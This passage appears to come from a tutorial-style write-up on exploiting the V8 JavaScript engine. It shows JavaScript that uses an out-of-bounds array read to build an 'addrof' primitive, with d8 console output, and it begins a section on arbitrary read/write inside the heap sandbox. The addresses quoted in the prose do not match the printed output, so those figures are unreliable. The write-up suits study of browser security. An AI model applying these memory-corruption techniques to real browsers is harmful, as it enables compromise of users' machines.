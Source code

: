 Next, we need to find `OBJ_LEAKER_OFFSET` which is the offset between
`oob_arr[0]` and `obj_leaker[0]`. This could be achieved easily by bruteforcing
and match the read value with the address of `a` (obtained from `%DebugPrint(a)`)

```js
for (let i = 0; i < 0x40; i++) {
    print(hex(i), hex(oob_read32(i)))
}
eval("%DebugPrint(a)")
```

Using release version of `d8`:

```console,hidelines=#
$ ./d8 --allow-natives-syntax ./pwn.js
[snip]
0xb 0x565
0xc 0x2
0xd 0x537c0d
0xe 0x65e589
0xf 0x6cd
[snip]
0x2b0600537c0d <JSArray[8]>
```

From the output of `%DebugPrint(a)`, we know that the address of `a` is `0x109400532779`.
Hence, we need to look for `0x532779` from the output and that would be our offset value,
which happens to be `0xd`.

```js
const OBJ_LEAKER_OFFSET = 0xd
function addrof(o) {
    obj_leaker[0] = o  // assign our target object to `obj_leaker`
    let addr = oob_read32(OBJ_LEAKER_OFFSET)  // read it using `oob_arr`
    return addr
}

print(hex(addrof(a)))
eval("%DebugPrint(a)")
```

```console
$ ./d8 --allow-natives-syntax ./pwn.js
[+] Corrupted oob_arr.length with 32768
0x53b595
0x3c630053b595 <JSArray[8]>
```

We could see that our `addrof` primitive is working but it only retrieves
the 32-bit sandbox offset which is as expected. But this is good enough for now.

## Caged Arbitrary Read and Write Primitives

Now, we will see how to get arbitrary read and write primitives inside the heap
sandbox by introducing another helper array. With OOB write, we could overwrite
this helper array `elements` pointer to control the memory address in which the
array perform read and write operation.
